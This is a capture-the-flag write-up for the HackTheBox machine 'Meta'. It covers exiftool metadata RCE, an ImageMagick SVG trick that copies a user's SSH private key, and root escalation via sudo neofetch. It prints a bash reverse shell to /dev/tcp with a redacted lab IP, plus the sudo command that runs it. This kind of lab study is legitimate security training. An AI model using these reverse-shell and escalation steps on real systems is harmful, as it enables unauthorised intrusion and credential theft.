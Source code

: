 ```yaml
---
title: Meta HackTheBox Writeup
tags: [writeup,hackthebox,rce,linux,exiftool,mogrify,imagemagick,neofetch]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/1.png)

## Scanning
We run **nmap** on all ports with scripts and software versions. We see that the web service redirects to the domain *artcorp.htb*, we insert it in our */etc/hosts* file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/2.png)


## Enumeration
We tested access at both sites, but they lead to the same destination.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/3.png)

##### Viewing website:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/4.png)

We list three possible relevant users in the company:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/5.png)

We also see that they are promoting a new product called "*MetaView*" (the machine is called Meta, so it could be a clue).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/6.png)

We launch the **wfuzz** tool and enumerate a subdomain "*dev01.artcorp.htb*":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/7.png)

We access the website, find a link to the tool they are developing.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/8.png)


## Exploitation
There appears to be a file upload field and it displays metadata. 

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/9.png)

If we look at the result, it is very similar to the output of the **exiftool**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/10.png)

#### Exploit: [https://github.com/OneSecCyber/JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE)

We perform the same process of the exploit and insert a system command (*"ls -lna"*) in the image metadata:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/11.png)

We upload the image and see that the command is executed on the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/12.png)

Since we had to put all the code in the metadata, I found it easier to encode the payload in **base64**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/13.png)

We insert the **base64** payload, add decoding and execution on the victim machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/14.png)

We listen in with a **netcat** and gain access to the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/15.png)

We tried to read the user flag, but we do not have permissions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/16.png)

We run **pspy** and see that a script called "*convert_images.sh*" is executed:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/17.png)

#### Visualizing content:
The script takes the inserted content of the path "*/var/www/dev01.artcorp.htb/convert_images/*" and executes it with mogrify accepting any file:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/18.png)


So I checked the version and did some research:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/19.png)

So, I used the following file to copy the SSH private key of the user "*thomas*" and inserted it in a m3.svg file in the path "*/var/www/dev01.artcorp.htb/convert_images/*" and we only had to wait for the script to run it in a few minutes.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/20.png)

We wait a few minutes and see that we have obtained the "*id_rsa*" file of the user *Thomas*:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/22.png)

## Privilege Escalation
We connect via **SSH** with the private key and read the user flag.

We also see that we can run as the root user the "**neofetch**" binary.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/23.png)

We searched [gtfobins/neofetch/](https://gtfobins.github.io/gtfobins/neofetch/) and found ways to exploit this binary.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/26.png)

We can see that there is a configuration file for this binary in our folder.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/24.png)

We insert our reverse shell into our neofetch configuration file:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/25.png)

We put a **netcat** listening on port 443 and execute the two commands through the terminal. We will gain root access and read the flag.

### Explotation code:
```bash
# Reverse shell /home/thomas/.config/neofetch/config.php
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1"

# Terminal execution
export XDG_CONFIG_HOME="$HOME/.config"
sudo -u root /usr/bin/neofetch \"\" 
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/27.png)




